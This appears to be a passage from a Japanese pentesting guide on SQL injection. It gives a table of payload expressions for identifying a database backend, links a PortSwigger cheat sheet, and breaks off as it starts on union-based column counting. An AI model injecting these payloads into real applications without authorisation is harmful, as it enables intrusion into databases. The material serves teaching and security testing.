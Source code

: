 ### バックエンドの特定

バックエンドを特定する最良の方法は、異なるバックエンドの関数を実行しようとすることです。前のセクションの_**sleep**_ **関数**や、次のものを使用できます（[payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification)の表）：
```bash
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
また、クエリの出力にアクセスできる場合は、**データベースのバージョンを表示させる**ことができます。

{% hint style="info" %}
続いて、異なる種類のSQLインジェクションを悪用するためのさまざまな方法について説明します。MySQLを例として使用します。
{% endhint %}

### PortSwiggerを使用した識別

{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}

## ユニオンベースの悪用

### カラム数の検出

クエリの出力が見える場合、これは悪用するための最良の方法です。\
まず最初に、**初期リクエスト**が返す**カラム**の**数**を特定する必要があります。これは、**両方のクエリが同じ数のカラムを返す必要があるため**です。\
この目的のために通常使用される2つの方法があります：

#### Order/Group by

